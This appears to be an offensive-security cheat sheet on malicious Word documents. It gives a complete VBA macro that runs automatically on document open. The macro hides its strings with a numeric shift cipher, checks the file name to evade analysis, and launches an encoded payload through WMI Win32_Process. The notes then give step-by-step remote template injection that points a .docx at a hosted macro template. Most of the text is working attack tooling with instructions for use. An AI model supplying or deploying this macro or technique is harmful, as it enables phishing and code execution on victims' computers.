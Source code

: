 - encrypt the payload and replace it in the below script
- encrypt the name of the DOCUMENT you download (runner.doc) and replace it in the script below

```vb
Function Pears(Beets)
    Pears = Chr(Beets - 17)
End Function

Function Strawberries(Grapes)
    Strawberries = Left(Grapes, 3)
End Function

Function Almonds(Jelly)
    Almonds = Right(Jelly, Len(Jelly) - 3)
End Function

Function Nuts(Milk)
    Do
    Oatmilk = Oatmilk + Pears(Strawberries(Milk))
    Milk = Almonds(Milk)
    Loop While Len(Milk) > 0
    Nuts = Oatmilk
End Function

Function MyMacro()
    Dim Apples As String
    Dim Water As String

	If ActiveDocument.Name <> Nuts("131134127127118131063117128116") Then 'replace the numbers with the encrypted version of the NAME OF THE DOCUMENT.doc'
	  Exit Function
	End If
	
    Apples = "129128136118131132121118....." 'change here with payload
    Water = Nuts(Apples)
    GetObject(Nuts("136122127126120126133132075")).Get(Nuts("104122127068067112097131128116118132132")).Create Water, Tea, Coffee, Napkin
End Function

Sub AutoOpen()
	MyMacro
End Sub
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Remote Template Injection</b></span>
You can create a normal document <span style="color:red">.docx</span> and point it to use an arbitrary template <span style="color:red">.dot</span> that contains a malicious macro.
- Create the .dot containing the malicious macro and host it on a website to then download.
- Create the .docx with whatever.
- Open the .docx with <span style="color:red">7z</span> and navigate into <span style="color:red">_rels/settings.xml.rels</span> and select edit.
- Scroll and change the Target="something" with Target="<URL_TO_FILE.dot>"
- &nbsp;
Consider using [remoteInjector.py](https://github.com/JohnWoodman/remoteinjector) to automate the process.
